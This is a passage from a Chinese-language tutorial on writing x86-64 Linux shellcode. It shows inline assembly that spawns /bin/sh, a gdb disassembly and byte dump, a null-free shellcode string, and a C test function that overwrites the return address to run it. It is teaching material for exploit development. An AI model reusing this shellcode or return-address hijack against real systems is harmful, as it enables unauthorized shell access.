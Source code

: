 ```C
        "mycall: call func\n\t"
        ".string \"/bin/sh\""
        );
}
```

对照shellcode_test.c，我们只是改变了一些赋值操作。让我们看一下效果。

```bash
$ gcc shellcode_test1.c -o shellcode_test1
$ gdb shellcode_test1
...
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x00000000000005fa <+0>:	push   %rbp
   0x00000000000005fb <+1>:	mov    %rsp,%rbp
   0x00000000000005fe <+4>:	jmp    0x62c <main+50>
   0x0000000000000600 <+6>:	pop    %rbx
   0x0000000000000601 <+7>:	mov    %rbx,0x8(%rsp)
   0x0000000000000606 <+12>:	xor    %rax,%rax
   0x0000000000000609 <+15>:	mov    %al,0x7(%rsp)
   0x000000000000060d <+19>:	mov    %eax,0x10(%rsp)
   0x0000000000000611 <+23>:	mov    $0x3b,%al
   0x0000000000000613 <+25>:	mov    %rbx,%rdi
   0x0000000000000616 <+28>:	lea    0x8(%rsp),%rsi
   0x000000000000061b <+33>:	lea    0x10(%rsp),%rdx
   0x0000000000000620 <+38>:	syscall 
   0x0000000000000622 <+40>:	xor    %rdi,%rdi
   0x0000000000000625 <+43>:	xor    %rax,%rax
   0x0000000000000628 <+46>:	mov    $0x3c,%al
   0x000000000000062a <+48>:	syscall 
   0x000000000000062c <+50>:	callq  0x600 <main+6>
   0x0000000000000631 <+55>:	(bad)  
   0x0000000000000632 <+56>:	(bad)  
   0x0000000000000633 <+57>:	imul   $0x90006873,0x2f(%rsi),%ebp
   0x000000000000063a <+64>:	pop    %rbp
   0x000000000000063b <+65>:	retq   
End of assembler dump.
gdb-peda$ x /51xb main+4
0x5fe <main+4>:	0xeb	0x2c	0x5b	0x48	0x89	0x5c	0x24	0x08
0x606 <main+12>:	0x48	0x31	0xc0	0x88	0x44	0x24	0x07	0x89
0x60e <main+20>:	0x44	0x24	0x10	0xb0	0x3b	0x48	0x89	0xdf
0x616 <main+28>:	0x48	0x8d	0x74	0x24	0x08	0x48	0x8d	0x54
0x61e <main+36>:	0x24	0x10	0x0f	0x05	0x48	0x31	0xff	0x48
0x626 <main+44>:	0x31	0xc0	0xb0	0x3c	0x0f	0x05	0xe8	0xcf
0x62e <main+52>:	0xff	0xff	0xff 
```

现在，我们的shellcode中已经没有0x00了，并且还变短了呢。

现在，我们试一试这个shellcode作为字符串能否运行。

```C
shellcode.c
#include<stdio.h>
#include<string.h>

char shellcode[] = "\xeb\x2c\x5b\x48\x89\x5c\x24\x08\x48\x31\xc0\x88\x44\x24\x07\x89\x44\x24"
                   "\x10\xb0\x3b\x48\x89\xdf\x48\x8d\x74\x24\x08\x48\x8d\x54\x24\x10\x0f\x05"
                   "\x48\x31\xff\x48\x31\xc0\xb0\x3c\x0f\x05\xe8\xcf\xff\xff\xff/bin/sh";

void test() {
    long  *ret;
    ret = (long *)&ret + 2;
    (*ret) = (long)shellcode;
}
```